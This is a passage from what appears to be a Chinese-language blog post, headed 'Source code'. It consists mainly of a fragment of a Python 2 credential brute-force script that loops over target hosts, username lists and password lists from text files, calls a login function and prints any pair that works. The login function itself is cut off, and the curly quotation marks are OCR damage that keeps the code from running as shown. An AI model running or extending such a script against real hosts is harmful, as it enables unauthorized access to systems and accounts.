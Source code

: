 ```
        print ‘username：’ + username

        print ‘Password：’ + password

        return True

    except:

        pass

if __name__ == ‘__main__’:

        host=open(‘host.txt’)

        for line in host:

                host=line.strip(‘\n’)

                print ‘Target：’ + host

                user=open(‘user.txt’)

                for line in user:

                        user=line.strip(‘\n’)

                        pwd=open(‘pwd.txt’,'r’)

                        for line in pwd:

                                pwd=line.strip(‘\n’)

                                Login(host,user,pwd)
```

**<strong>往期回顾：**</strong>
- - - - - - - - 